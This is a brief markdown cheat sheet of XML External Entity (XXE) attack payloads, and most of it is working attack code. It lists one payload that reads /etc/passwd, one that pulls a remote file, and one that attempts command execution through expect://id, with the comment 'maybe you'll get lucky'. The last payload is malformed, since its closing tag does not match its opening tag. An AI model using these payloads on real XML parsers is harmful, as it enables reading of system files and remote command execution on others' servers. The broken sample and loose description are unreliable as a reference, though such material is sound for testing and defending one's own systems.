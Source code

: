## XML External Entity (XXE) Attack  
Code is injected into an XML file that is interpreted and executed by an XML parser  

### Examples  

#### Accessing a local file on the parser  

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo>

```

#### Access a remote file on the parser 
```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "http://www.example.com/text.txt" >]>
<foo>&xxe;</foo>
```
#### Remote Code Execution on the Parser
*php://expect is disabled by default, but maybe you'll get lucky  

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo
  [<!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "expect://id" >]>
<results>
  <a>`&xxe;`</a>
</creds>
```
